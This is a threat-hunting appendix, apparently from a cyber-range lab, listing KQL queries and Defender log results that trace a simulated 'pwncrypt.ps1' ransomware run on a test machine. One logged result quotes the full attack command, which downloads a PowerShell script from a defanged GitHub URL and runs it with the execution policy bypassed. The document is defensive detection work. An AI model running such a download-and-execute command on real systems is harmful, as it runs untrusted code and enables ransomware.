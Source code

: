 ### Project: PwnCrypt Ransomware Project Appendix

#### Summmary:
This threat hunt was performed in Microsfot Azure and Defender XDR for End-Point. Below you'll see tables used with Sentinel (SIEM), KQL commands, and MITRE ATT&CK® Framework Mapping.

#### Raw event tables used:

| Table Name           | Official Documentation                                                                   |
| :------------------- | :--------------------------------------------------------------------------------------- |
| `DeviceNetworkEvents`| [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/devicenetworkevents) |
| `DeviceProcessEvents`| [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/deviceprocessevents) |
| `DeviceEvents`       | [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/deviceevents)       |
| `DeviceFileEvents`   | [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/devicefileevents)   |

#### KQL Appendix:

#### Tracing PowerShell-Initiated pwncrypt.ps1 Download Connection
```kql
let target_device = "arcwin10";
DeviceNetworkEvents
| where DeviceName == target_device and Timestamp == datetime(2025-05-10T19:01:44.3886333Z)
| project Timestamp, ActionType, InitiatingProcessCommandLine, RemoteUrl, InitiatingProcessAccountName, InitiatingProcessFileSize
| where isnotempty( RemoteUrl)
```

Query Result:
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| ActionType                  | ConnectionSuccess                                                  |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| RemoteUrl                   | hxxps://raw[.]githubusercontent[.]com                            |
| InitiatingProcessAccountName| arcanalyst1                                                      |
| InitiatingProcessFileSize   | 455680                                                           |

#### Confirming `pwncrypt.ps1` Script Execution on `arcwin10`


```kql
let target_device = "arcwin10";
let start_time = datetime(2025-05-10 18:50:00Z); //May 10, 2025 1:50:00 PM CDT
let end_time = datetime(2025-05-10 19:21:00Z); //May 10, 2025 2:21:00 PM CDT
DeviceProcessEvents
| where DeviceName == target_device
| where Timestamp between (start_time .. end_time )
| project Timestamp,AccountName, InitiatingProcessFileName, InitiatingProcessCommandLine, ProcessCommandLine, FileName, FileSize, AdditionalFields
| where InitiatingProcessFileName contains "powershell" and AccountName == "arcanalyst1"
| sort by Timestamp desc
```

Query Result:
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| AccountName                 | arcanalyst1                                                      |
| InitiatingProcessFileName   | powershell.exe                                                   |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| ProcessCommandLine          | "cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1 |
| FileName                    | cmd.exe                                                          |
| FileSize                    | 289792                                                           |
| AdditionalFields            | {"DesktopName":"Winsta0\\Default"}                               |

#### Verifying Full PowerShell Command Execution via DeviceEvents


```kql
let target_device = "arcwin10";
let start_time = datetime(2025-05-10 18:50:00Z); //May 10, 2025 1:50:00 PM CDT
let end_time = datetime(2025-05-10 19:21:00Z); //May 10, 2025 2:21:00 PM CDT
DeviceEvents
| where DeviceName == target_device
| where Timestamp between (start_time .. end_time )
| project Timestamp, ActionType, InitiatingProcessSHA1, InitiatingProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessParentFileName, AdditionalFields
| where ActionType contains "PowerShellCommand"
| sort by Timestamp asc
```

Query Result:
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| ActionType                  | PowerShellCommand                                                |
| InitiatingProcessSHA1       | 801262e122d6a2e758962896260d55bbd0136a                           |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| InitiatingProcessAccountName| arcanalyst1                                                      |
| InitiatingProcessParentFileName| explorer.exe                                                    |
| AdditionalFields            | {"Command":"Invoke-WebRequest -Uri 'hxxps://raw[.]githubusercontent[.]com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt[.]ps1' -OutFile 'C:\\programdata\\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\\programdata\\pwncrypt.ps1"} |

#### Tracing `pwncrypt.ps1` Ransomware File Renaming Activity

```kql
let target_device = "arcwin10";
DeviceFileEvents
| where DeviceName == target_device
| where ActionType == "FileRenamed" and FolderPath contains "pwncrypt"
| project Timestamp, ActionType, FileName, PreviousFolderPath, InitiatingProcessAccountName, InitiatingProcessFileName
| sort by Timestamp asc
```

Query Result:
| Timestamp           | ActionType  | FileName                                   | PreviousFolderPath               | InitiatingProcessAccountName | InitiatingProcessFileName |
| :------------------ | :---------- | :----------------------------------------- | :------------------------------- | :--------------------------- | :------------------------ |
| May 10, 2025 2:01:45 PM | FileRenamed | 3546_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 2:01:45 PM | FileRenamed | 6267_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 2:01:45 PM | FileRenamed | 6705_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 4362_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 9982_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 4489_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 8270_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 1130_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 4935_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 6642_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 8762_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 8357_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
